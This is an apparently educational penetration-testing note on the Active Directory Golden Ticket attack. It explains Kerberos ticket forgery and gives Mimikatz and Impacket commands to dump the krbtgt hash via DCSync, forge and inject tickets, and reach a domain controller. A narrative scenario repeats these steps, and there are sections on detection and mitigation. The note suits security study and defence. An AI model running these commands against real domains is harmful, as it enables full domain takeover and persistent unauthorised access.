

# 36.09 Golden Ticket Attack

## 1. Executive Summary

The Golden Ticket Attack is the ultimate Active Directory persistence and privilege escalation technique. It involves forging a legitimate Kerberos Ticket Granting Ticket (TGT) by using the compromised NTLM hash (or AES key) of the `krbtgt` account. Because the `krbtgt` account is the cryptographic foundation of the entire Active Directory domain's trust mechanism, possessing its key allows an attacker to generate valid TGTs for *any user* (real or fictitious), with *any privileges* (e.g., Domain Admin, Enterprise Admin), and with an *arbitrary lifetime* (e.g., 10 years). A Golden Ticket bypasses normal authentication entirely, rendering password resets of compromised accounts useless as long as the ticket remains valid.

## 2. Theoretical Background and Core Concepts

### The Role of the KRBTGT Account
Every Active Directory domain has a built-in, disabled account named `krbtgt`. This account serves as the service account for the Key Distribution Center (KDC) service running on all Domain Controllers. 
When a user authenticates successfully (via AS-REQ), the KDC responds with an AS-REP containing a TGT. The core component of this TGT—the Privilege Attribute Certificate (PAC), which contains the user's group memberships and SIDs—is encrypted and signed using the NTLM hash (RC4) or AES key of the `krbtgt` account.

### How Forgery Works
Kerberos is a stateless protocol. When a user presents a TGT to the KDC to request a service ticket (TGS-REQ), the KDC does not check a database to see if it issued that TGT. It simply attempts to decrypt and validate the signature on the TGT using the current `krbtgt` password hash. 
If an attacker possesses the `krbtgt` hash, they can construct their own TGT offline. They can pack the PAC with Domain Admin SIDs, encrypt it with the `krbtgt` hash, and inject it into their session. When they present this forged TGT, the KDC decrypts it successfully, trusts the forged PAC, and issues a Service Ticket granting full administrative access to the requested resource.

## 3. The Mechanics of the Attack

The lifecycle of a Golden Ticket attack:
1. **Domain Compromise**: The attacker achieves Domain Admin or equivalent privileges to access a Domain Controller.
2. **Extraction**: The attacker dumps the `krbtgt` account's hash/key (commonly via DCSync).
3. **Information Gathering**: The attacker gathers the Domain SID, Domain Name, and the target Username they wish to impersonate.
4. **Forgery**: The attacker uses a tool (Mimikatz, Impacket) to forge a custom TGT offline.
5. **Injection (PtT)**: The forged TGT is injected into memory using Pass the Ticket techniques.
6. **Persistence/Execution**: The attacker uses the ticket to maintain unimpeded access to the domain, bypassing password changes and smartcard requirements.

## 4. ASCII Architecture Diagram



## 5. Prerequisites and Required Tools

**Prerequisites for Creation:**
- The NTLM hash (RC4) or AES 128/256 key of the `krbtgt` account.
- The Fully Qualified Domain Name (FQDN).
- The Domain Security Identifier (SID).
- A username to impersonate (does not need to be a real user, but using a real one reduces anomalies).

**Tools:**
- **Mimikatz**: The gold standard for generating and injecting the ticket.
- **Impacket**: `ticketer.py` for creating tickets on Linux.
- **Rubeus**: Can also generate and inject Golden Tickets.

## 6. Step-by-Step Execution

### Step 1: Extracting the KRBTGT Hash
Assuming Domain Admin privileges, execute a DCSync attack to retrieve the `krbtgt` data.
```cmd
mimikatz # lsadump::dcsync /user:krbtgt /domain:domain.local
```
Output will contain:
- NTLM Hash: `b1a2c3d4e5f6a7b8c9d0e1f2a3b4c5d6`
- Domain SID: `S-1-5-21-123456789-987654321-1122334455`

### Step 2: Creating and Injecting the Golden Ticket
Using Mimikatz, forge the ticket and inject it directly into memory.
```cmd
mimikatz # kerberos::golden /domain:domain.local /sid:S-1-5-21-123456789-987654321-1122334455 /rc4:b1a2c3d4e5f6a7b8c9d0e1f2a3b4c5d6 /user:Administrator /ptt
```
*Note: You can use `/aes256:` instead of `/rc4:` to blend in better with modern environments.*

### Step 3: Verification
Verify the ticket is in memory:
```cmd
klist
```
Access the Domain Controller's C$ share to prove access:
```cmd
dir \\dc01.domain.local\C$
```

### Using Impacket (Linux)
Generate the `.ccache` file:
```bash
ticketer.py -nthash b1a2c3d4e5f6a7b8c9d0e1f2a3b4c5d6 -domain-sid S-1-5-21-123456789-987654321-1122334455 -domain domain.local Administrator
```
Export and use:
```bash
export KRB5CCNAME=Administrator.ccache
psexec.py domain.local/Administrator@dc01.domain.local -k -no-pass
```

## 7. Detection and Artifacts

1. **Ticket Lifetimes**: By default, Mimikatz creates Golden Tickets with a 10-year lifespan. Normal AD configurations limit TGTs to 10 hours. Detecting TGTs with unusually long lifetimes (Event ID 4769 - Service Ticket Requested, check the ticket options and lifespan) is a classic indicator.
2. **Fictitious Users**: If an attacker creates a ticket for a user that does not exist in the AD database, authentication will succeed, but there will be no corresponding user object. Monitoring for authentication events from non-existent SIDs is a strong indicator.
3. **Encryption Downgrades**: If the environment exclusively uses AES256 for Kerberos, the presence of RC4-encrypted TGTs (encryption type 0x17) is highly suspicious.
4. **Missing AS-REQ**: A Golden Ticket skips the AS-REQ phase entirely. Seeing TGS-REQ (Event ID 4769) without a preceding AS-REQ (Event ID 4768) from the same user/IP within the normal ticket lifetime window is anomalous.

## 8. Mitigation and Prevention

1. **Resetting the KRBTGT Password**: The only way to invalidate existing Golden Tickets is to change the `krbtgt` account password **twice**. Active Directory stores the current and previous password history for `krbtgt` to prevent replication issues. Changing it once leaves old tickets valid. Changing it twice (with replication time in between) invalidates all previously issued tickets.
2. **Protecting Domain Admin Privileges**: The best defense is preventing the initial compromise of the `krbtgt` hash. Implement Tier 0 isolation, restrict Domain Admin logons to Domain Controllers only, and heavily monitor DCSync activities (Event ID 4662).
3. **Enable PAC Validation**: Historically, PAC validation was optional. Microsoft updates have progressively enforced PAC validation, where services verify the PAC signature with the KDC, making simple forging slightly more complex, though attackers adapt by ensuring PAC signatures match the expected cryptographic checksums.

## 9. Chaining Opportunities

- **[[14 - DCSync Attack]]**: DCSync is the primary method used to extract the `krbtgt` hash required for this attack.
- **[[07 - Pass the Ticket (PtT)]]**: The injection phase of the Golden Ticket relies entirely on PtT mechanics.
- **[[10 - Silver Ticket Attack]]**: Similar concept, but targeted at specific services rather than the entire domain.

## 10. Related Notes

- [[01 - Active Directory Basics]]
- [[04 - Kerberos Authentication Deep Dive]]
- [[17 - Active Directory Persistence Mechanisms]]

---
*Note: This material is for educational and authorized penetration testing purposes only.*

## Real-World Attack Scenario
## Real-World Attack Scenario

Having achieved Domain Admin privileges through a lateral movement campaign, the attacker knew their access was fragile.
If the IT team detected the breach and reset the compromised Domain Admin password, the attacker would lose their foothold.
To ensure long-term, undetectable persistence, the attacker decided to forge a Golden Ticket.
This required the NTLM hash of the `krbtgt` account, the cryptographic core of the domain's trust.
From a compromised Domain Controller, the attacker executed Mimikatz and performed a DCSync attack: `lsadump::dcsync /user:krbtgt /domain:megacorp.local`.
This command simulated a DC replication request and extracted the `krbtgt` NTLM hash: `b1a2c3d4e5f6a7b8c9d0e1f2a3b4c5d6`.
They also retrieved the domain SID (`S-1-5-21-123456789-987654321-1122334455`) during this process.
With these critical components, the attacker had everything needed to forge Kerberos tickets offline.
They retreated to their attacking machine to construct the Golden Ticket.
To blend in, they decided to create the ticket for a fictitious user, `svc_updater`, to avoid anomalies associated with real users.
They used Mimikatz to forge the ticket and save it to disk: `kerberos::golden /domain:megacorp.local /sid:S-1-5-21... /rc4:b1a2c3... /user:svc_updater /id:500 /groups:512 /ticket:golden.kirbi`.
The `groups:512` argument ensured the fictitious user was effectively a Domain Admin.
The resulting `golden.kirbi` file was a fully valid Ticket Granting Ticket (TGT), signed by the `krbtgt` hash, with a default lifespan of 10 years.
Months later, the Blue Team finally detected the initial breach, eradicated the malware, and forced a global password reset for all users.
They believed the network was secure.
However, they failed to reset the `krbtgt` account password twice, leaving the old hash valid.
The attacker returned, loaded Mimikatz on a newly compromised low-level workstation, and executed `kerberos::ptt golden.kirbi`.
The injected Golden Ticket allowed them to instantly request service tickets as a Domain Admin for any machine in the network.
They connected to the primary Domain Controller using WMI and regained total control of the environment.
The Golden Ticket attack provided ultimate persistence, bypassing all standard password-based remediation efforts.

